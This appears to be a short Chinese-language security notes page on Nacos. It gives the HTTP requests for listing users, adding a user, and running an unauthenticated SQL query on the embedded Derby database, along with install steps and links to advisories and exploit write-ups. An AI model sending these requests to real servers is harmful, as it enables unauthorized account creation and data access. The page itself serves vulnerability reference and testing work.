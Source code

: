### 查看用户
```
GET /nacos/v1/auth/users?pageNo=1&pageSize=100
```

### 创建用户
```
POST /nacos/v1/auth/users?username=test&password=test123
```

### unauth
```
/nacos/v1/cs/ops/derby?sql=select+st.tablename+from+sys.systables+st
```

> These endpoints are only valid when using embedded storage (derby DB) so this issue should not affect those installations using external storage (e.g. mysql)

- https://securitylab.github.com/advisories/GHSL-2020-325_326-nacos/
- https://www.cnblogs.com/hack404/p/14697313.html



## 安装
https://github.com/alibaba/nacos/releases/download/2.0.3/nacos-server-2.0.3.zip
```
unzip -q nacos-server-2.0.3.zip
bin/startup.sh -m standalone
```

![image](https://user-images.githubusercontent.com/30398606/173304250-3c57144d-6b7b-4291-bc31-473c07cf504b.png)


## 参考
- [Nacos结合Spring Cloud Gateway RCE利用](https://xz.aliyun.com/t/11493)
- [Nacos Client Yaml反序列化漏洞分析](https://xz.aliyun.com/t/10355)
- https://github.com/google/tsunami-security-scanner-plugins/issues/118
- https://github.com/google/tsunami-security-scanner-plugins/issues/119
